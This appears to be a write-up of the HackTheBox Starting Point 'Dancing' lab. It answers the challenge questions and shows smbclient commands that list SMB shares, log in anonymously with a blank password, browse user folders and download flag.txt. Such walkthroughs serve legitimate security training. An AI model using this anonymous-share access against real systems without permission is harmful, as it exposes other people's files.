 # HackTheBox: Dancing:
---
URL: https://app.hackthebox.com/starting-point \
Author: HackTheBox
### Challenge Description:
- What does the 3-letter acronym SMB stand for?
- What port does SMB use to operate at?
- What is the service name for port 445 that came up in our Nmap scan?
- What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share?
- How many shares are there on Dancing?
- What is the name of the share we are able to access in the end with a blank password?
- What is the command we can use within the SMB shell to download the files we find?
- Submit root flag
### Solution:
first we connected to the target server using the smbclient application

```
smbclient -L 10.129.138.191 -U anonymous
Enter WORKGROUP\anonymous's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk
SMB1 disabled -- no workgroup available
```

Here we can see the WorkShares share that we can connect to using the following command:

```
smbclient //10.129.138.191/WorkShares/ -U anonymous
```

We can then log in with the anonymous user and a blank password as credentials

```
Enter WORKGROUP\anonymous's password:
Try "help" to get a list of possible commands.
```

Next we checked through each folder to find the flag.txt file

```
smb: \> ls
  .                                   D        0  Mon Mar 29 08:22:01 2021
  ..                                  D        0  Mon Mar 29 08:22:01 2021
  Amy.J                               D        0  Mon Mar 29 09:08:24 2021
  James.P                             D        0  Thu Jun  3 08:38:03 2021

                5114111 blocks of size 4096. 1732530 blocks available
smb: \> cd Amy.J
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 09:08:24 2021
  ..                                  D        0  Mon Mar 29 09:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 11:00:37 2021

                5114111 blocks of size 4096. 1732530 blocks available
smb: \Amy.J\> cd ../
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 08:38:03 2021
  ..                                  D        0  Thu Jun  3 08:38:03 2021
  flag.txt                            A       32  Mon Mar 29 09:26:57 2021

                5114111 blocks of size 4096. 1732530 blocks available
```

and finally issued the get command to download to the local box

```
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
```

We used cat to extract the flag and successfully submitted it.

---

Notes:
